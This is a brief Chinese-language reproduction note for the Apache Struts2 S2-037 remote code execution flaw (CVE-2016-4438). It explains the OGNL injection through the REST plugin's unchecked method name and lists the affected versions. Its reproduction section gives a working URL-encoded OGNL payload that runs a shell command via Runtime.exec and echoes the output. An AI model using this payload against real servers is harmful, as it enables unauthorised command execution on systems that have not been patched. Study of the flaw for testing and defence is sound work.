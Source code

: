 （CVE-2016-4438）s2-037
=======================

一、漏洞简介
------------

和S2-033一样也是关于rest插件导致method变量被篡改造成的远程代码执行漏洞，这个漏洞和之前S2-033是一个地方，都是在DefaultActionInvocation.java的invokeAction方法中没有对于methodName参数内容进行校验，便直接丢到了getValue方法里面，从而造成Ongl表达式的注入。

二、漏洞影响
------------

Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

三、复现过程
------------

### poc

光有回显

    /orders/4/%28%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command%5B0%5D).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=7556&command=whoami

